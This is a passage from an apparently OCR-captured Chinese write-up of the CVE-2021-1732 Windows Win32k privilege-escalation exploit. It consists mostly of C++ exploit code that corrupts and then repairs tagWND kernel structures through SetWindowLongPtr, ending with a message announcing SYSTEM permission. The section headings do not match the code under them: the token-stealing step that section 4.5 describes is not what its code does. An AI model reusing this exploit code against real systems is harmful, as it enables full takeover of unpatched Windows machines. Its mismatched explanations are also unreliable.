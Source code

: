 **4.5 进程权限提升**

322 – 347 行遍历 EPROCESS->ActiveProcessLinks 链表，找到 System 进程，将其 Token 复制到当前进程：

```
g_dwpWndKernel_heap_offset2 = *(ULONG_PTR*)((PBYTE)pWnd2 + g_dwKernel_pWnd_offset);    // tagWNDk2 相对于桌面堆基址的偏移
ULONG_PTR dwpWnd0_to_pWnd2_kernel_heap_offset = *(ULONGLONG*)((PBYTE)g_pWnd[0] + 0x128);    // tagWNDk0 在桌面堆上的扩展内存相对于桌面堆基址的偏移
if (dwpWnd0_to_pWnd2_kernel_heap_offset < g_dwpWndKernel_heap_offset2) {    // tagWNDk2 需在二者中较高的地址
    dwpWnd0_to_pWnd2_kernel_heap_offset = (g_dwpWndKernel_heap_offset2 - dwpWnd0_to_pWnd2_kernel_heap_offset);    // 计算二者的偏移
    // 去掉 ptagWNDk2->dwExtraFlag 的 0x800 属性，pExtraBytes 改回直接寻址模式
    DWORD dwFlag = *(ULONGLONG*)((PBYTE)pWnd2 + g_dwModifyOffsetFlag_offset);
    dwFlag &= ~0x800;
    SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd2_kernel_heap_offset + g_dwModifyOffsetFlag_offset, dwFlag);
    // 在用户空间堆中申请一片空间来赋值 ptagWNDk2->pExtraBytes
    PVOID pAlloc = g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, g_dwMyWndExtra);
    SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd2_kernel_heap_offset + g_dwModifyOffset_offset, (LONG_PTR)pAlloc);

    // 还原 ptagWNDk1->spMenu 时，ptagWNDk1->dwStyle 需要带有 WS_CHILD 属性
    ULONGLONG ululStyle = *(ULONGLONG*)((PBYTE)g_pWnd[1] + g_dwExStyle_offset);
    ululStyle |= 0x4000000000000000L;
    SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwExStyle_offset, ululStyle);    // 为窗口 1 添加 WS_CHILD 样式
    // 使用 SetWindowLongPtr 自带功能（-12）还原 ptagWNDk1->spMenu
    ULONG_PTR pMyMenu = SetWindowLongPtr(g_hWnd[1], GWLP_ID, (LONG_PTR)pSPMenu);
    // 这里应该释放伪造 tagMENU 时申请的那些空间，因为没有后续利用，写不写倒是无所谓
    // 移除窗口 1 的 WS_CHILD 样式
    ululStyle &= ~0x4000000000000000L;
    SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwExStyle_offset, ululStyle);

    std::cout << "Recovery bug prevent blue screen." << std::endl;
}
```

**4.6 扫尾工作**

350 – 374 行恢复了被修改的各结构体字段，防止蓝屏的发生：

```
DestroyWindow(g_hWnd[0]);
DestroyWindow(g_hWnd[1]);
DestroyWindow(hWnd2);
// 232、233 行创建的两个菜单还没有释放！
if (pSystemEProcess != NULL) {
    std::cout << "CVE-2021-1732 Exploit success, system permission" << std::endl;
}
else {
    std::cout << "CVE-2021-1732 Exploit fail" << std::endl;
}
system("pause");

return (int)0;
```
